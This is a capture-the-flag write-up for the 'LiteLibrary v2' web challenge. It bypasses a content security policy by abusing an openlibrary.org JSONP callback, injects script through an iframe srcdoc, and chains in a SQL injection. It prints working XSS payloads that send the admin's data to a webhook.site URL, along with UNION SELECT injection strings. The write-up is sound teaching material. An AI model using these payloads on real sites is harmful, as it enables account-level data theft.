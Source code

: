 # LiteLibrary v2 Solution

We are presented with a CRUD library where we can add new books, mark books as favourite and delete books. The "liteShare" feature gives users a share link for any book using which they can share that book with other users.

Observations:

-   User input is being inserted into DOM using `innerHTML`
-   CSP header:
    ```
    default-src 'self' openlibrary.org;img-src 'self' raw.githubusercontent.com external-content.duckduckgo.com;base-uri 'self';font-src 'self' https: data:;form-action 'self';frame-ancestors 'self';object-src 'none';style-src 'self' https: 'unsafe-inline'
    ```
    -   Inline scripts and scripts from non-whitelisted sources are blocked
    -   `default-src` permits requests to the host openlibrary.org
        -   As `script-src` is not present the `default-src` rule also applies to script tags
    -   `img-src` permits `img` source requests to:
        -   raw.githubusercontent.com
        -   external-content.duckduckgo.com
-   `/api/delete`'s `title` URL query is vulnerable to SQL Injection
-   The `/report` endpoint available at the book sharing page `/liteShare` indicates that a bot might be visiting this page. Hence our first goal is CSP bypass so as to get JS running on this page.

---

On researching the Open Library API that is being used while adding a new book to the library, we come across the following [JSONP API endpoint](https://openlibrary.org/dev/docs/api/books): [`https://openlibrary.org/api/books?bibkeys=ISBN:1234&callback=processBooks`](https://openlibrary.org/api/books?bibkeys=ISBN:1234&callback=processBooks)

This endpoint can be maliciously consumed using a `<script>` tag as follows:

```
<script src="https://openlibrary.org/api/books?bibkeys=ISBN:1234&callback=alert(1337);//"></script>
```

Resulting output from endpoint:

```
alert(1337);//({"ISBN:1234": {"bib_key": "ISBN:1234", [...]}});
```

One might think that simply pasting the above script into one of the vulnerable (to HTML injection) fields such as the "Book Title" might give the alert popup, but this does not work. Unlike script tags inserted using `document.createElement()`, the script tags inserted using `innerHTML` [don't seem not load](https://security.stackexchange.com/q/60861). Hence we utilize an `iframe` to insert our payload into the DOM in order to get the alert popup. New payload:

```
<iframe
    srcdoc="ab<script src='https://openlibrary.org/api/books?bibkeys=ISBN:x&callback=alert(1337);//'></script>cd"
></iframe>
```

---

On further testing we find that the script returned by the JSONP endpoint gets blocked by the browser if it contains `'`, `"`, `+`, etc. This is due to a protection feature built into the browser called ["OpaqueResponseBlocking"](https://chromestatus.com/feature/4933785622675456). The blocking in our case is due to the JSONP response's `content-type` header which is set to `application/json`. When the javascript response fails to get parsed as JSON, the browser flags it as suspicious and blocks it. We can bypass this WAF by sticking to template strings.

---

Now that we can run JS on the site, we shall proceed to get all the admin's books:

```
fetch(`/getBooks`)
    .then((r) => r.text())
    .then((r) => (window.top.location = `https://webhook.site/#!/abcdef?x=${r}"?x=${r}`));
```

The flag doesn't seem to be present amongst the limited set of books visible to the admin. Hence we utilize the SQL Injection at `/api/delete` to query all the tables:

```
/api/delete?title=" UNION SELECT group_concat(sql) FROM sqlite_master--
```

This returns a single record with the schema `CREATE TABLE BOOKS (title TEXT, author TEXT, pages TEXT, imageLink TEXT, link TEXT, fav TEXT, read TEXT, liteId TEXT)`.

---

SQL query:

```
/api/delete?title=" UNION SELECT group_concat(link) FROM BOOKS--
```

Javascript payload to be obtained from the JSONP API:

```
fetch(`/api/delete?title=" UNION SELECT group_concat(link) FROM BOOKS--`, {
    method: `post`,
})
    .then((r) => r.text())
    .then((r) => (window.top.location = `https://webhook.site/#!/abcdef?x=${r}`));
```

Final payload:

```
<iframe
    srcdoc="<script src='https://openlibrary.org/api/books?bibkeys=ISBN:x&callback=fetch(`/api/delete/?title=%22 UNION SELECT group_concat(title) FROM BOOKS--`,{method:`post`}).then((r)=>r.text()).then((r)=>(window.top.location=`https://webhook.site/#!/abcdef?x=${r}`));//'></script>1337"
></iframe>
```

To extract all the data from the DB, we use `group_concat()` on each of the columns present in the `BOOKS` table.

We create a new book with the above payload as the title and report it to the admin from another account. After doing this for all columns, we find the flag in the `link` column.

[solve.py](solve.py)
